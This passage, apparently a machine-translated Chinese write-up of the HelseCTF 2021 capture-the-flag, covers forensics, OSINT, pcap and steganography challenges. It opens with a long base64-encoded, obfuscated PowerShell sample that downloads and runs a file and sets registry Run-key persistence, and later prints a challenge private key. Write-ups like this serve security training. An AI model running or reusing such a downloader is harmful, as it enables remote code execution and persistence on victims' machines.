QWFRQjBBQ2tBS0FCdkFGUUFkQUFuQUNrQUt3QW5BQ2NBS3dBbkFIRUFYd0I0QUQwQWNRQm9BR1VBSndBckFDZ0FKd0FuQUNzQUp3Qk1BR2tBZEFBcEFDZ0Fid0JVQUhRQUp3QXBBQ3NBSndCc0FDY0FLd0FuQUhNQVpRQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQnZBQ2NBS3dBbkFGUUFkQUFuQUNrQUt3QW5BR01BZEFCbUFDY0FLd0FuQUM0QWJnQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FBbkFDcwpBSndCdkFGUUFkQUFuQUNrQUt3QW5BRzhBY1FCZkFIZ0FQUUJ4QUdJQUp3QXJBQ2dBSndBbkFDc0FKd0JNQUdrQWRBQXBBQ2dBYndCVUFIUUFKd0FwQUNzQUp3QW5BQ3NBSndCcEFHd0FaQUFuQUNzQUtBQW5BRXdBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUdVQWNnQW5BQ3NBSndCeEFGOEFlQUE5QUhFQU5RQW5BQ3NBS0FBbkFFd0FKd0FyQUNjQWFRQjBBQ2tBS0FBbkFDc0FKd0J2QUZRQWRBQW5BQ2tBS3dBbkFGOEFaZ0FuQUNzQUp3QmpBR1FBSndBckFDZ0FKd0JNQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndBNUFEVUFZd0FuQUNzQUtBQW5BRXdBSndBckFDY0FhUUIwQUNrQUtBQnZBRlFBZEFBbkFDa0FLd0FuQURJQUp3QXJBQ2dBSndCTUFHa0FkQUFwQUNnQWJ3QW5BQ3NBSndCVUFIUUFKd0FwQUNzQUp3QW5BQ3NBSndCbEFHUUFaUUEwQURBQUp3QXJBQ2NBTlFBd0FDY0FLd0FvQUNjQUp3QXJBQ2NBVEFCcEFIUUFLUUFvQUNjQUt3QW5BRzhBVkFCMEFDY0FLUUFyQUNjQU5RQW5BQ3NBS0FBbkFDY0FLd0FuQUV3QWFRQjBBQ2tBS0FBbkFDc0FKd0J2QUZRQWRBQW5BQ2tBS3dBbkFEa0FKd0FyQUNjQVl3QTVBRElBWkFBbkFDc0FLQUFuQUNjQUt3QW5BRXdBYVFCMEFDa0FLQUJ2QUZRQWRBQW5BQ2tBS3dBbkFETUFaQUFuQUNzQUp3QTBBRGNBSndBckFDY0FZd0E0QUdJQUp3QXJBQ2dBSndBbkFDc0FKd0JNQUdrQWRBQXBBQ2dBSndBckFDY0Fid0JVQUhRQUp3QXBBQ3NBSndBekFDY0FLd0FvQUNjQVRBQnBBSFFBS1FBb0FHOEFWQUIwQUNjQUtRQXJBQ2NBTkFBbkFDc0FLQUFuQUV3QUp3QXJBQ2NBYVFCMEFDa0FLQUJ2QUNjQUt3QW5BRlFBZEFBbkFDa0FLd0FuQUdZQUp3QXJBQ2NBWVFBekFDY0FLd0FuQUM0QWFnQW5BQ3NBS0FBbkFFd0FhUUIwQUNrQUtBQnZBQ2NBS3dBbkFGUUFkQUFuQUNrQUt3QW5BSEFBWndBbkFDa0FMZ0FpQUhJQVlBQmxBRkFBWUFCTUFHRUFZQUJEQUVVQUlnQW9BQ2NBVEFCcEFIUUFLUUFvQUc4QVZBQjBBQ2NBTEFBa0FGSUFSUUJKQUYKVUFRZ0JyQUc0QUtRQXRBRklBWlFCd0FHd0FZUUJqQUVVQUtBQW5BSEVBWHdCNEFEMEFjUUFuQUN3QVd3QnpBSFFBVWdCcEFFNEFad0JkQUZzQVl3Qm9BR0VBVWdCZEFEUUFOd0FwQUNrQU93QlRBSFlBSUFBZ0FDZ0FKd0JuQUc0QWNnQmxBR29BWmdCdUFHb0FiQUJyQUdVQUp3QXBBQ0FBS0FCYkFIUUFlUUJRQUdVQVhRQW9BQ0lBZXdBMEFIMEFld0F5QUgwQWV3QXhBSDBBZXdBd0FIMEFld0F6QUgwQUlnQWdBQzBBWmdBZ0FDY0FiQUFuQUN3QUp3QlBBQzRBUmdCcEFDY0FMQUFuQUVVQWJRQXVBRWtBSndBc0FDY0FaUUFuQUN3QUp3QlRBSGtBY3dCVUFDY0FLUUFwQURzQUpBQjBBRTRBWWdCdEFFY0FhUUEwQUVjQVNnQWdBRDBBSUFBa0FFc0FUUUJ2QUZvQVVnQlFBSG9BY1FCTEFDQUFLd0FnQUNRQVpnQm1BRUVBVWdBeUFHSUFjUUJDQUhvQVlRQmxBRkVBWkFCNEFIb0FiUUJ4QURNQVRnQmhBRHNBSkFCakFESUFWZ0JKQUZRQWR3QjZBQ0FBUFFBZ0FDUUFRUUE1QUZNQVNBQXlBSFVBVUFCbEFGb0FJQUFyQUNBQUpBQmhBSFlBUndBMEFHVUFPd0FrQUVZQVpRQllBRU1BVndCT0FEWUFSUUJ4QUVNQUlBQTlBQ0FBS0FBb0FDUUFTQUJQQUUwQVJRQWdBQ3NBS0FBaUFGRUFTUUJ0QUdzQWF3QkhBR1VBWndCWUFGWUFXQUJCQUVrQWJBQnhBRU1BVlFCS0FHOEFVd0JRQUhFQVF3QnBBRWtBYkFCeEFFTUFjUUJzQUU0QU9BQk1BRU1BZFFBNEFFa0FiQUJ4QUVNQU9BQlJBR29BVUFCWEFHOEFNQUEyQUVrQWJBQnhBRU1BSWdCYkFDMEFNUUF1QUM0QUxRQTFBRElBWFFBZ0FDMEFhZ0J2QUdrQWJnQWdBQ2NBSndBcEFDQUFLUUF1QUhJQVpRQndBR3dBWVFCakFHVUFLQUFnQUNJQVF3QnhBR3dBU1FBaUFDd0FXd0J6QUhRQWNnQnBBRzRBWndCZEFGc0FZd0JvQUdFQWNnQmRBRGtBTWdBcEFDa0FPd0FrQUZNQVdRQklBRUVBZWdCa0FEMEFKQUJHQUdVQVdBQkRBRmNBVGdBMkFFVUFjUUJEQUNzQUp3QXVBSFFBZUFCMEFDY0FPd0FrQUdZQVpnQkJBRklBTWdCaUFIRUFRZ0I2QUdFQVpRQmhBR0lBVXdCSkFERUFhd0JtQUQwQUtBQWlBCkdZQWFBQm9BRHNBSVFCd0FHTUFad0IyQUhRQVpBQjFBR1lBU2dCMUFGVUFhZ0J0QUZvQWNBQjJBRTRBYkFCbUFFb0FkUUFpQUNrQUxnQnlBR1VBY0FCc0FHRUFZd0JsQUNnQUpBQktBR3NBYUFCeEFHSUFMQUFrQUVRQVdRQlZBRVFBVndCRkFIRUFkUUJpQUNrQU93QWtBRVFBZGdCa0FEZ0FOd0JxQUZnQVBRQWtBRk1BV1FCSUFFRUFlZ0JrQURzQVpnQnZBSElBWlFCaEFHTUFhQUFnQUNnQUpBQkNBRFlBT0FBekFGa0FJQUJwQUc0QUlBQmJBR01BYUFCaEFISUFXd0JkQUYwQUpBQm1BR1lBUVFCU0FESUFZZ0J4QUVJQWVnQmhBR1VBWVFCaUFGTUFTUUF4QUdzQVpnQXBBSHNBSkFCcUFFd0FOd0JJQUVZQU5RQmFBREFBUFFBa0FHb0FUQUEzQUVnQVJnQTFBRm9BTUFBckFDZ0FXd0JqQUdnQVlRQnlBRjBBS0FCYkFHa0FiZ0IwQUYwQVd3QmpBR2dBWVFCeUFGMEFKQUJDQURZQU9BQXpBRmtBSUFBdEFDQUFNUUFnQUNrQUtRQWdBSDBBT3dBa0FHRUFOZ0JVQUhvQVRBQTlBQ1FBV1FBMkFEY0FRUUJ6QUNzQUpBQlRBRmtBU0FCQkFIb0FaQUFyQUNRQVJBQjJBR1FBT0FBM0FHb0FXQUE3QUNRQVF3QjBBRElBTVFCREFEMEFKQUJFQUhZQVpBQTRBRGNBYWdCWUFEc0FKQUJNQUc0QVlnQlBBR0VBVFFCckFGa0FVZ0FnQUQwQUlBQWtBSEVBVEFCdEFHNEFOQUEwQUUwQVN3QWdBQ3NBSUFBa0FGb0FWQUIyQUhZQWF3QldBR3dBTUFBN0FDUUFXZ0JCQUVvQVR3QnRBRTRBTmdCUkFHTUFTUUFnQUQwQUlBQWtBRVlBWlFCWUFFTUFWd0JPQURZQVJRQnhBRU1BS3dBaUFEWUFMZ0JxQUhBQVp3QWlBRHNBSkFCdEFHTUFaZ0I2QUhBQVFRQm9BR0lBWlFBeEFFSUFJQUE5QUNBQUpBQlVBR29BYkFCSUFHZ0FWZ0JMQUdvQVNRQWdBQ3NBSUFBa0FIRUFOQUI0QUVNQVp3QTJBRllBWmdCREFEc0FhUUJtQUNnQVZBQmxBSE1BZEFBdEFFTUFid0J1QUc0QVpRQmpBSFFBYVFCdkFHNEFJQUF0QUZFQWRRQnBBR1VBZEFBZ0FDUUFkQUJEQUdzQVRnQnFBRFFBZGdBcEFDQUFld0FrQURBQU9nQTZBQ0lBWXdCeUFHVUFZUUIwQUdVQVpBQnBBSElBWlFCagpBSFFBYndCeUFIa0FJZ0FvQUNBQUpBQkdBR1VBV0FCREFGY0FUZ0EyQUVVQWNRQkRBQ2tBT3dCMEFISUFlUUI3QUdZQWJ3QnlBR1VBWVFCakFHZ0FJQUFvQUNRQVl3Qm1BRFFBVndCS0FGb0FlUUJsQUNBQWFRQnVBQ0FBSkFCbUFHWUFRUUJTQURJQVlnQnhBQzRBY2dCbEFIQUFiQUJoQUdNQVpRQW9BQ2NBWndCeUFHRUFiUUJ0QUdFQWNnQnNBSGtBSndBc0FDY0FMZ0JsQUhnQVpRQW5BQ2tBTGdCekFIQUFiQUJwQUhRQUtBQmJBR01BYUFCaEFISUFYUUEyQURRQUtRQXVBSE1BY0FCc0FHa0FkQUFvQUZzQVl3Qm9BR0VBY2dCZEFERUFNZ0EwQUNrQUxnQnlBR1VBY0FCc0FHRUFZd0JsQUNnQUpBQmpBR1lBTkFCWEFFb0FXZ0I1QUdVQVpRQkxBRFVBYmdCcEFGWUFhZ0JqQUZJQUxBQWtBRzhBY3dCYUFGb0FRd0IwQUdVQWRnQnNBQ2tBS1FCN0FHa0FaZ0FvQUNRQVp3QnVBSElBWlFCcUFHWUFiZ0JxQUd3QWF3QmxBRG9BT2dCRkFIZ0FhUUJ6QUhRQWN3QW9BQ1FBV2dCQkFFb0FUd0J0QUU0QU5nQlJBR01BU1FBcEFDa0Fld0JpQUhJQVpRQmhBR3NBZlFCSkFHNEFkZ0J2QUdzQVpRQXRBRmNBWlFCaUFGSUFaUUJ4QUhVQVpRQnpBSFFBSUFBdEFGVUFjZ0JwQUNBQUpBQmpBR1lBTkFCWEFFb0FXZ0I1QUdVQUlBQXRBRThBZFFCMEFFWUFhUUJzQUdVQUlBQWtBRm9BUVFCS0FFOEFiUUJPQURZQVVRQmpBRWtBZlFCekFIUUFZUUJ5QUhRQUlBQWtBRm9BUVFCS0FFOEFiUUJPQURZQVVRQmpBRWtBT3dCT0FHVUFkd0F0QUVrQWRBQmxBRzBBSUFBa0FFTUFkQUF5QURFQVF3QTdBRk1BWlFCMEFDMEFRd0J2QUc0QWRBQmxBRzRBZEFBZ0FDUUFSQUIyQUdRQU9BQTNBR29BV0FBZ0FDUUFhZ0JNQURjQVNBQkdBRFVBV2dBd0FEc0FVd0IwQUdFQWNnQjBBQzBBVXdCc0FHVUFaUUJ3QUNBQUxRQnpBQ0FBTVFBN0FGSUFaUUJ0QUc4QWRnQmxBQzBBYVFCMEFHVUFiUUFnQUMwQWNnQmxBR01BZFFCeUFITUFaUUFnQUMwQWNBQmhBSFFBYUFBZ0FDQUFLQUFrQUVnQWJ3QnRBR1VBS3dBaUFGd0FJZ0FyQUNRQVJnQmxBRmdBUXdCWEFFNEFOZ0IKRkFIRUFRd0F1QUhJQVpRQndBR3dBWVFCakFHVUFLQUFrQUVnQWJ3QnRBR1VBS3dBaUFGd0FJZ0FzQUNRQVpnQm1BRUVBVWdBeUFHSUFjUUJDQUhvQVlRQmxBQ2tBTGdCekFIQUFiQUJwQUhRQUtBQmJBSE1BZEFCeUFHa0FiZ0JuQUYwQVd3QmpBR2dBWVFCeUFGMEFPUUF5QUNrQVd3QXdBRjBBS1FBN0FIMEFZd0JoQUhRQVl3Qm9BSHNBWXdCc0FHVUFZUUJ5QUMwQWFBQnBBSE1BZEFCdkFISUFlUUE3QUdVQVl3Qm9BRzhBSUFBaUFFUUFid0FnQUc4QWNnQWdBR1FBYndBZ0FHNEFid0IwQUN3QUlBQjBBR2dBWlFCeUFHVUFJQUJwQUhNQUlBQnVBRzhBSUFCMEFISUFlUUF1QUNJQWZRQTdBR01BYkFCbEFHRUFjZ0F0QUdnQWFRQnpBSFFBYndCeUFIa0FPd0I5QUdVQWJBQnpBR1VBZXdCQkFHUUFaQUF0QUZRQWVRQndBR1VBSUFBdEFFRUFjd0J6QUdVQWJRQmlBR3dBZVFCT0FHRUFiUUJsQUNBQUp3QlFBSElBWlFCekFHVUFiZ0IwQUdFQWRBQnBBRzhBYmdCR0FISUFZUUJ0QUdVQWR3QnZBSElBYXdBbkFEc0FXd0JUQUhrQWN3QjBBR1VBYlFBdUFGY0FhUUJ1QUdRQWJ3QjNBSE1BTGdCTkFHVUFjd0J6QUdFQVp3QmxBRUlBYndCNEFGMEFPZ0E2QUZNQWFBQnZBSGNBS0FBaUFFNEFid0FnQUdrQWJnQjBBR1VBY2dCdUFHb0FaUUIwQUhNQVB3QWlBQ2tBT3dCakFHd0FaUUJoQUhJQUxRQm9BR2tBY3dCMEFHOEFjZ0I1QURzQWZRQWtBSGtBVGdCeEFFa0FSd0JFQUVVQVp3QTRBQ0FBUFFBZ0FDUUFWd0IyQUU0QVlRQklBRmdBVkFCMkFGY0FaUUIxQURRQUlBQXJBQ0FBSkFCUEFIRUFZd0EwQUZVQWFnQlFBSE1BT3dBa0FIY0FTZ0E0QUdjQVJBQkJBRXdBSUFBOUFDQUFKQUJ0QURJQVpRQnhBRU1BUXdCUEFHNEFSd0FnQUNzQUlBQWtBRzBBUWdCMUFFMEFOQUJpQURzQQoK) 中的代码，得到了这个:

这一次有点不同。通过阅读脚本，我们可以看到它写入注册表。我注意到它使用了这个值，所以我把它们打印出来:

```
Write-Output $JeOSX7wfLc; Write-Output $AyDiqhXSx; Write-Output $lu89NC7Hq;
```

它将我发送到:**hKcu:\ SoftwARe \ MicROSoFt \ wINdOWs \ MAlDOCkeY \ RUN**



注册表的屏幕截图—按作者

国旗所在:**彩蛋{ Registrer _ det _ egget！}**

# Osint

根据收集的信息，共有 12 项挑战。

## 不调和

```
Det kan være lurt å sjekke Discord: [https://discord.gg/b3zS2QrrU9](https://discord.gg/b3zS2QrrU9)
```

你在这里所要做的就是访问迪科德海峡。看看新闻，你会在其中一个帖子里找到这面旗子。

```
HelseCTF — Yesterday at 10:08 AM
:chicken: :rabbit: :rabbit2: :hatching_chick: :baby_chick: :hatched_chick: :egg:
HelseCTF vil automagisk åpne nå om 2 timer hvis CTFd fungerer som tiltenkt.Alle oppgaver åpnes samtidig. Som en hovedregel vil det ikke bli lagt ut hint på noen av oppgavene, men det kan jo tenkes at vi har totalt bomma på vanskelighetsgrad eller hintlesing fra oppgaveteksten. Dette vil bli vurdert fortløpende. Eventuelle hint vil bli annonsert i god tid (discord/ctfd).God påske og **EGG{lykke_til!}**
:chicken: :rabbit: :rabbit2: :hatching_chick: :baby_chick: :hatched_chick: :egg:
```

## 推特

```
Det kan være lurt å sjekke Twitter: [https://twitter.com/helsectf](https://twitter.com/helsectf)
```

和上一篇一样，访问 Twitter，在最近的一篇文章中，你会发现 flagg。

```
HelseCTF 2021 er åpen for registrering. 22\. mars kl12 til 6\. april. [http://helsectf.no](http://helsectf.no) #påskenøtter #ctf **#EGG{helsectf_er_g0y}**
```

## Oppdraget

```
Hva skal HelseCERT oppdage, forebygge og håndtere?Et hint kan være å lese finn.no annonsen: [https://www.finn.no/job/fulltime/ad.html?finnkode=209984069](https://www.finn.no/job/fulltime/ad.html?finnkode=209984069)Flagget er EGG{<et norsk ord>}
```

如果你访问附加芬兰人你可以找到答案。他们问他们应该识别和管理什么。答案是**彩蛋{cyberangrep}** (网络攻击)

## 纳斯琼纳莱·海尔赛·斯宁格

```
Norsk Helsenett SF utvikler, forvalter og drifter mange nasjonale e-helseløsninger. Kan du nevne minst en av de?Flagget er EGG{<navn på en nasjonal e-helseløsning>}
```

使用 HelseCERT 的国家组织的名称是什么？答案是**蛋{helsenorge}。**

## 商务化人际关系网

```
Norsk Helsenett SF utvikler, forvalter og drifter mange nasjonale e-helseløsninger. Kan du nevne minst en av de?Flagget er EGG{<navn på en nasjonal e-helseløsning>}
```

如果你访问 LinkedIn，你可以找到这个帖子:

```
Tar du utfordringen? HelseCERT gjentar fjorårets suksess med påskectf. Individuell konkurranse. Åpent for alle. 22\. mars til 6\. april. Ingen premier. Norsk/engelsk. #påskenøtt #nhn #rekruttering #EGG_helsectf #helsecert
```

彩蛋在标签中: **EGG{helsectf}**

## 道具。1S (2020 年至 2021 年)

```
Hvor stort var det samlede budsjettforslaget til helse- og omsorgsdepartementet for 2021?Flagget er EGG{<antall milliarder, avrundet nedover>}
```

在谷歌上快速搜索道具。1S 给出了以下结果:

```
Prop. 1 S (2020–2021) — regjeringen.nowww.regjeringen.no › … › Prop. 1 S (2020–2021) Norge var et av de første landene i verden som utviklet en nasjonal demensplan. … Helse- og omsorgsdepartementets samlede budsjettforslag er om lag 239,7 mrd. … For å komme fram til hvor stor realvekst budsjettforslaget representerer, må …
```

所以答案是:**蛋{239}**

## 统计预测

```
I hvilket år ble Norsk Helsenett SF stiftet av Helse- og omsorgsdepartementet?Flagget er EGG{<årstall>}
```

快速的谷歌搜索会给你:

```
2009 — fra AS til statsforetak
Målsettingen var å satse på forebyggende og koordinerte helsetjenester med stor vekt på bruk av IKT. Etter initiativ fra Hanssen ble Norsk Helsenett SF stiftet av Helse- og omsorgsdepartementet i juli.
```

彩蛋则:**彩蛋{2009}**

## Tildeling

```
Siden vår byråkratiske stat har blitt digitalisert ligger det mange offentlige dokumenter på nett. Her kan små og store påskekyllinger lese om hva de litt eldre og mer etablerte 🐔 har bestemt for allmennheten.Hvor stor var den **totale** tildelingen fra Helse- og omsorgsdepartementet til Norsk Helsenett SF for 2021?Flagget er EGG{<nærmeste millioner kroner, avrundet nedover>}
```

这就有点棘手了，我最终发现这份文件解释了谁得到什么:

```
Oppdragsbrev til Norsk helsenett SF for 2021
Helse- og omsorgsdepartementet har på bakgrunn av Prop. 1 S (2020–2021) og Innst. 11 S
(2020–2021) vedtatt å tildele følgende til Norsk helsenett SF:
(i 1000 kroner)
Kapittel Post Betegnelse Bevilgning
701 70 Norsk helsenett SF 151 633
701 72 Nasjonale e-helseløsninger 504 884
781 21 Spesielle driftsutgifter 1 000
```

把它们加起来，你会得到: **EGG{657}**

## 告诉 av 梅尔丁格

```
I Norsk Helsenett er det mange ivrige påskekyllinger som liker å telle meldinger. Faktisk er de så begeistret for meldingstelling at de har laget en egen tjeneste for dette, åpent tilgjengelig for alle.Totalt hvor mange eResept-meldinger (for hele landet) ble utvekslet mellom ulike aktører over helsenettet for hele 2020?Flagget er EGG{<antall millioner, avrundet nedover>}
```

他们想让你找到这个给你挪威所有健康相关技术统计数据的网页。你可以通过 tweek 得到 2020 年电子处方数量的结果:

```
Antall meldinger fra 01.01.2020, 00:00 til og med 01.01.2021, 00:00
Filtrert på
Meldingskategorier:
eResept-meldinger
Meldingsformat: EbXml og Ikke EbXml
Rediger spørring
Last ned rapport
Totalt antall meldinger
Antall
102 654 980
```

答案是:**蛋{102}**

## Harer i mosen #1

```
En alarm i sensornettet har trigget på mistenksomme filoverføringer og en av påskekyllingene har fanget opp tilhørende nettverkstrafikk. Påskekyllingen ser at det er en ukjent enhet som har overført bildefiler, men sliter med å finne ut hvem som eier denne. Kan du hjelpe til med å finne ut hvem som står bak?
```

打开任务中得到的 pcap 文件。然后跟随 TCP 流进行 HTTP 上传，您会在 author 部分找到该标志。



Sceenprint wireshark —作者

彩蛋则:**彩蛋{H4R4LD_H4R3PU5}**

## Harer i mosen #2

```
Ved nærmere inspeksjon virker som innholdet i filoverføringen kan ha lokasjonsdata. Påskekyllingen ser trist ut og forteller at han var syk den dagen de hadde geografi på kyllingskolen. Klarer du å finne navnet på bygget som bildene ble tatt fra?Flagget er EGG{<navn på bygget>}
```

首先导出 HTTP 流中的所有文件:



导出文件 Wireshark —按作者

选择保存它们的位置并打开文件夹。在文件夹中你可以看到，如果你在记事本中打开 3 个文件，它是图像。不要让 PDF 标记欺骗你。

打开图片，你会看到不同地方的景色，旁边有一个红色的方块。或者任务如果找到照片是在哪里拍的。我使用[https://www.metadata2go.com/](https://www.metadata2go.com/)来查找每张图片的元数据。它们都包含一些 GPS 坐标:

```
Image 1: 63 deg 25' 16.11" N, 10 deg 15' 7.73" E
Image 2: 63 deg 24' 40.07" N, 10 deg 25' 51.23" E
Image 3: 63 deg 25' 36.81" N, 10 deg 23' 48.95" E
```

然后我使用 [GeoJava](http://geo.javawa.nl/coordcalc/index_en.html) 来三角定位:



[Gps 三角测量](http://geo.javawa.nl/coordcalc/index_en.html) —作者

他们都指向位于**叶步司 9 号门附近的地址。快速的谷歌搜索告诉我赫尔塞科特在那里也有一个办公室，这个建筑被称为 abels hus。这竟然是彩蛋:**彩蛋{abels_hus}。****

## Harer i mosen #3

```
En av påskekyllingene ser på bildene og reagerer plutselig. “Her er det noe muffens, men jeg klarer ikke helt å sette fingeren på det.” Han anbefaler at du analyserer bildene nærmere for å se om det er noe som skiller seg ut. En annen påskekylling nikker og legger til at vi enda ikke vet hvor bildene har blitt sendt. De lurer fælt på hva som egentlig har skjedd her. Kan du se om du finner noe som kan peke på hvor bildene har blitt lastet opp?
```

这项任务给了我们所需要的所有信息。他们说其中一个图像有额外的东西，但他们不能指出它是什么。最有意义的图像是最大的。

我使用来自 **Harer i mosen #2** 的相同文件，并将其上传到[https://futureboy.us/stegano/decinput.html](https://futureboy.us/stegano/decinput.html)

因为我认为最大的图片隐藏了一些东西，结果它给了我一把钥匙:

```
The payload may be:
 ASCII textTo display, I might suggest using a MIME type of:
 text/plain“steganoin26771.jpg”:
 format: jpeg
 capacity: 111.7 KB
 embedded file “ThisLooksSuspicios.key”:
 size: 1.7 KB
 encrypted: rijndael-128, cbc
 compressed: yes — — -BEGIN PRIVATE KEY — — -
MIIEvwIBADANBgkqhkiG9w0BAQEFAASCBKkwggSlAgEAAoIBAQCw29tWB+lxoO/p
AkuZsPr+70O04q79IKRiZrGPLrNzl4gCwrJ0sgaDGw3Iq2x9Lva24tuLrEsI27c6
6yVnQqey0dpPl4gtyqGsv2AVORUQHGtcvDqyp1UYA99W8Y/QDah7iLqRBjQW6Q5Q
/J98/pei/ki4ABsOuKTY81xclA3+65U5GHsN+jRIlUGqyqGTObX91lgwrgoT1yTr
sdJnYLi+f8mfNuDKQUEFffo7ZEo3gA68y0UgeyvnnQ517YmSu5E6gvEJtbMs+lnF
XnHyZ4MuWiMhTjuiq2pB94rxzk4WBci95KQHxKYlY/NEEtcZBx9futPdUUOkDjo5
BJB8taLbAgMBAAECggEBAKPOPkxkb5dK1GogMh1bil3tBezXt/PC8/4f130iaBs7
0kGcSuVCrj1oJVAjVgxsHx4s5+Np5OWDeyYa/T2ywtgg/e6SDxM6hpwVdMyzXgra
B6aQwF0QFwRzMby5Z9XvkIk6jnIcKMq/eP8RvDZtJ81Tb87cajMsWaKHZJhqmLvt
s4iOay3eRbpyl52WfYG9MKnpq4NJgohKrl9J1GUW6UnCXu+dOpTUjQ7J/Ex5nqej
5M8rcMuInhWg5s0T6bOlBU0rMpNHtFq3gBNAm41kh9UNzNTy0JLRlFNu57eUqQ1y
YvAfFe0l7K2n4Iy/buBXwrK0hEDb44NeUt3f2mc5D2ECgYEA5rrlNBkePt+kH9bR
h5ttygneSaPIfNUVCJcLcZ3AtrcZvlFNosV1yjep/coOreEqf1QFX4uoasVzavVh
36TLuY/OCkxfUhWfJgm52JKms0SBrDps26QO181woU2fdMfoWj4IMd1Bod/fvMMA
qdNSli2hvvzTQbr913ZGkb8it1cCgYEAxDqLQSs90oUhTcGga6JJ7ennmkvTSnd4
